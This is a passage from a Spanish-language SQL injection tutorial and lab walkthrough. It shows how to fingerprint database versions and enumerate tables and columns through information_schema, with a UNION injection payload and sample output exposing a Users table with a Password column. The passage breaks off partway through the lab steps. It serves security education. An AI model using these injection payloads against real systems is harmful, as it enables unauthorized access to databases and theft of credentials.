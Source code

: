 Las siguientes son algunas consultas para determinar la versión de la base de datos para algunos tipos de bases de datos populares:

|   |   |
|---|---|
|Tipo de base de datos|Consulta|
|Microsoft, MySQL|`SELECT @@version`|
|Oráculo|`SELECT * FROM v$version`|
|PostgreSQL|`SELECT version()`|

Por ejemplo, podrías utilizar un `UNION`ataque con la siguiente entrada:

`' UNION SELECT @@version--`

Esto podría devolver el siguiente resultado. En este caso, puedes confirmar que la base de datos es Microsoft SQL Server y ver la versión utilizada:

`Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64) Mar 18 2018 09:11:49 Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)`

## Listado del contenido de la base de datos.

La mayoría de los tipos de bases de datos (excepto Oracle) tienen un conjunto de vistas llamado esquema de información. Esto proporciona información sobre la base de datos.

Por ejemplo, puede realizar una consulta `information_schema.tables`para enumerar las tablas de la base de datos:

`SELECT * FROM information_schema.tables`

Esto devuelve un resultado como el siguiente:

`TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE ===================================================== MyDatabase dbo Products BASE TABLE MyDatabase dbo Users BASE TABLE MyDatabase dbo Feedback BASE TABLE`

Este resultado indica que hay tres tablas, llamadas `Products`, `Users`y `Feedback`.

Luego puede realizar consultas `information_schema.columns`para enumerar las columnas en tablas individuales:

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

Esto devuelve un resultado como el siguiente:

`TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE ================================================================= MyDatabase dbo Users UserId int MyDatabase dbo Users Username varchar MyDatabase dbo Users Password varchar`

Este resultado muestra las columnas de la tabla especificada y el tipo de datos de cada columna.

## Lab
1. Utilice Burp Suite para interceptar y modificar la solicitud que establece el filtro de categoría de producto.
2. Determine la cantidad de columnas que devuelve la consulta y qué columnas contienen datos de texto. Verifique que la consulta devuelva dos columnas, las cuales contengan texto, utilizando una carga útil como la siguiente en el `category`parámetro:
    